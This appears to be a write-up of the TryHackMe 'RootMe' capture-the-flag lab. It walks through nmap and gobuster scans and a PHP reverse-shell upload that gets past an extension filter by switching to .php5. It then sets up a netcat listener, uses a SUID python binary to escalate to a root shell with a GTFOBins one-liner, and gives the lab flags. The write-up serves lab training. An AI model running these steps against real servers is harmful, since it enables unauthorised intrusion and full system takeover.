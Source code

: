```yaml
---
title: RootMe
date: 2023-04-24 17:00:00 +500
categories: [THM, easy machine]
tags: [suid]     # TAG names should always be lowercase
---
```

10.10.138.249


## Reconnaissance

### Scan the machine, how many ports are open?

Let's start with a nmap scan
```bash
nmap 10.10.138.249
```
and then a detailed one to see the port service and version

```bash
nmap -sCV -p22,80 10.10.138.249
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
> 2


### What version of Apache is running?

In the Nmap scan, we see that we already have the answer to this
> Apache/2.4.29

### What service is running on port 22?

> ssh


### Find directories on the web server using the GoBuster tool.

Let's do a Gobuster scan
the syntax is:
```
gobuster [mode] -u [target ip] -w [wordlist]
```

```bash
gobuster dir -u 10.10.138.249 -w /usr/share/dirb/wordlists/common.txt
```

```
/css                  (Status: 301) [Size: 312] [--> http://10.10.138.249/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 311] [--> http://10.10.138.249/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.138.249/panel/]
/server-status        (Status: 403) [Size: 278]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.138.249/uploads/]
```

### What is the hidden directory?

We see two hidden directories, /panel and /uploads but the correct answer is

> /panel

which is a site to upload a file

## Getting a shell

So now that we have a file to upload a file, let's start trying to upload a php reverse shell that i suppose we can execute later going to the /uploads directory

I am going to use this:

https://github.com/pentestmonkey/php-reverse-shell

Remember to change the IP and PORT of your machine that you will use. And set up the listener with the port in your machine

```bash
nc -lvnp 1234
```

but we get a prompt that says php files are not allowed

Let's try to use another extension of php if this will bypass the extension filter

like these that I got from: https://book.hacktricks.xyz/pentesting-web/file-upload
PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module

and with the second extension, the file got uploaded!

now let's head over to the uploads directory and try to run it 

I wasn't running so I tried with a more popular extension: .php5 and it worked, now we have a shell, let's retrieve the user.txt flag

### user.txt

to find the flag, since I know what the name is I will search for it with the command find
```bash
find / -name user.txt 2>/dev/null
```
the way it works is 'find [directory to search] -name [name of the file] 2>/dev/null [this last part is to avoid printing errors]

we found it on /var/www/user.txt, lets use cat to read it

> THM{y0u_g0t_a_sh3ll}

## Privilege Escalation

### Search for files with SUID permission, which file is weird?

to find this kind of file we can use the following command:
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
the one that stands out is this:

> /usr/bin/python

### Find a form to escalate your privileges.

let's head over to _gtfobin_ to search an exploit for this SUID FILE

we got this
```bash
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
remember to change ./python to the actual directory path that we found
```bash
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

and with this, we got a root shell

### root.txt
I head over /root and there it is, the root.txt flag

> THM{pr1v1l3g3_3sc4l4t10n}